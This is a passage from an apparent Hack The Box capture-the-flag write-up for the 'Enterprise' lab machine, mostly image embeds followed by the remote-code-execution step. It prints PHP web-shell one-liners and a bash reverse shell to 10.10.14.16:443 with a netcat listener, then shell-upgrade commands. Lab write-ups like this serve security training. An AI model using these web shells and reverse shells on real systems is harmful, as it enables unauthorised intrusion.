 <br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_075.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_076.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_077.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_078.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_079.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_080.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_081.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_082.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now with generating some **.php** files I finally can get a **RCE** on the machine (which <ins>I still don't know if it's another container or not</ins>). After creating a file in the files folder in **PHP** to execute the command to send me a **Reverse Shell**, I access the box and check that I am finally in the real one and I can already access the first flag, after performing a last console treatment and recognition commands. In fact, I find myself with a third **codename**, due to the different containers depleted.

> **Victime Machine:**

```bash
echo "<?php system('whoami'); ?>" > pwned.php
echo "<?php system('hostname -I'); ?>" > pwned.php

# https://enterprise.htb/files/pwned.php
#    --> www-data
#    --> 10.10.10.61 172.17.0.1 dead:beef::250:56ff:feb9:e560

echo "<?php system('bash -i >&/dev/tcp/10.10.14.16/443 0>&1'); ?>" > pwned.php
```

> **Attacker Machine:**

```bash
nc -nlvp 443
```

> **Victime Machine:**

```bash
# https://enterprise.htb/files/pwned.php        # :(

echo "<?php system('bash -c "bash -i >&/dev/tcp/10.10.14.16/443 0>&1"'); ?>" > pwned.php
# https://enterprise.htb/files/pwned.php        # :(

echo "<?php system('bash -c \"bash -i >&/dev/tcp/10.10.14.16/443 0>&1\"'); ?>" > pwned.php
# https://enterprise.htb/files/pwned.php        # :)

whoami
hostname
hostname -I
script /dev/null -c bash
[Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
```